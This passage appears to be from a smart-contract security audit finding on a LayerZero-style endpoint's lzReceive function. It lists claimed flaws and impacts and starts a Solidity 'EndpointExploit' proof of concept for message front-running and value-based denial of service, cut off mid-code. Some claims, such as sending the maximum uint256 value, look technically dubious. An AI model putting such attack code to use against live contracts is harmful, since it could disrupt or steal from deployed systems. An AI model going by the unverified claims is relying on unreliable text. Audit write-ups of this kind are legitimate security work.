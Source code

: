 ```solidity
    function lzReceive(
        Origin calldata _origin,
        address _receiver,
        bytes32 _guid,
        bytes calldata _message,
        bytes calldata _extraData
    ) external payable {
        // Execution step
        _clearPayload(_receiver, _origin.srcEid, _origin.sender, _origin.nonce, abi.encodePacked(_guid, _message));
        ILayerZeroReceiver(_receiver).lzReceive{ value: msg.value }(
            _origin,
            _guid,
            _message,
            msg.sender,
            _extraData
        );
    }
}
```

Key issues:
1. Race conditions between verification and execution
2. No timeout mechanism for verified but unexecuted messages
3. Potential for message reordering
4. Missing validation of `_extraData` length and content
5. Insufficient checks for message value transfers

### Impact
- Messages could be executed out of order
- Verified messages might never be executed
- Potential for message execution front-running
- Possible DoS through message value manipulation
- Memory exhaustion through large `_extraData`

### Proof of Concept
```solidity
contract EndpointExploit {
    function demonstrateIssues(
        address endpoint,
        Origin memory origin,
        address receiver,
        bytes32 guid,
        bytes memory message
    ) external {
        // 1. Message ordering attack
        // Attacker front-runs with a different message
        ILayerZeroEndpointV2(endpoint).lzReceive(
            origin,
            receiver,
            guid,
            message,
            new bytes(0)
        );
        
        // 2. Value manipulation attack
        // Send with excessive value to cause reverts
        ILayerZeroEndpointV2(endpoint).lzReceive{value: type(uint256).max}(
            origin,
            receiver,
            guid,
            message,
            new bytes(0)
```